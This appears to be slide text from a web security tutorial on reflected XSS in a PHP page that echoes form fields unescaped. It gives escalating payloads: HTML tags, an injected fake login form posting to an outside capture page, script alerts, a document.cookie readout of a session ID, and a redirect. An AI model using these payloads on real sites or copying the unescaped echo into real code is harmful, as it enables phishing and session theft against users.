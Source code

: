 Read GET parameters - EXPLOIT
XSS Reflected
We can try adding some HTML to our parameters and see if the page renders it
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		<i>John</i>
lastname:		<u>Doe</u>
Output: 		Hello John Doe!

Read GET parameters - EXPLOIT
XSS Reflected
Form Injection
By adding custom HTML, we can try and go for a Phishing Attack
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		<form action=”http://www.mysite.it/capture_page.php”>				Username: <input name=”user” type=”text”/><br/>
lastname:			Password: <input name=”pass” type=”password”/>			</form>
Output: 		Hello [ Fake login form ]!

Read GET parameters - EXPLOIT
XSS Reflected
That was nice, but let’s see how far we can go!
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script>alert(1)</script>
Output: 		Hello John Doe[ … popup appears saying “1” … ]!		

Read GET parameters - EXPLOIT
XSS Reflected
That “1” wasn’t so exciting, is there anything important we can display from the DOM?
Remember your “HTTP is Stateless” mantra? What makes it Stateful?
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script>alert(document.cookie)</script>
Output: 		Hello John Doe[ … popup appears saying “PHPSESSID=badf00d...” … ]!		

Read GET parameters - EXPLOIT
XSS Reflected
Reading cookies is cool! But what about making the page perform some action?
Code: 			$firstname = $_POST[‘firstname’];				$lastname = $_POST[‘lastname’];				echo “Hello $firstname $lastname!”;
Payload:
firstname:		John
lastname:		Doe<script>window.location=’www.google.it’</script>
Output: 		Hello John Doe[ redirect to www.google.it ]	
